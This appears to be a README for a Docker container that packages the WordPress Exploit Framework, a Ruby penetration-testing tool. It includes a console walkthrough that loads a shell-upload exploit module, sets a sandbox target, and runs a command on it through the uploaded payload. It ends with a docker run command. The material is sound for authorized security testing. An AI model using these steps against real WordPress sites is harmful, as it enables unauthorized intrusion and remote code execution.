 # Wordpress Exploit Framework Docker Container

==================================================

Wordpress Exploit Framework is Ruby framework for developing and using modules which aid in the penetration testing of WordPress powered websites and systems.

Usage Examples:

```
wpxf > use exploit/symposium_shell_upload

[+] Loaded module: #<Wpxf::Exploit::SymposiumShellUpload:0x3916f20>

wpxf [exploit/symposium_shell_upload] > set host wp-sandbox

[+] Set host => wp-sandbox

wpxf [exploit/symposium_shell_upload] > set target_uri /wordpress/

[+] Set target_uri => /wordpress/

wpxf [exploit/symposium_shell_upload] > set payload exec

[+] Loaded payload: #<Wpxf::Payloads::Exec:0x434d078>

wpxf [exploit/symposium_shell_upload] > set cmd echo "Hello, world!"

[+] Set cmd => echo "Hello, world!"

wpxf [exploit/symposium_shell_upload] > run

[-] Preparing payload...
[-] Uploading the payload...
[-] Executing the payload...
[+] Result: Hello, world!
[+] Execution finished successfully
```
# To Run the Container

```
# docker run jsitech/wpexploitframework
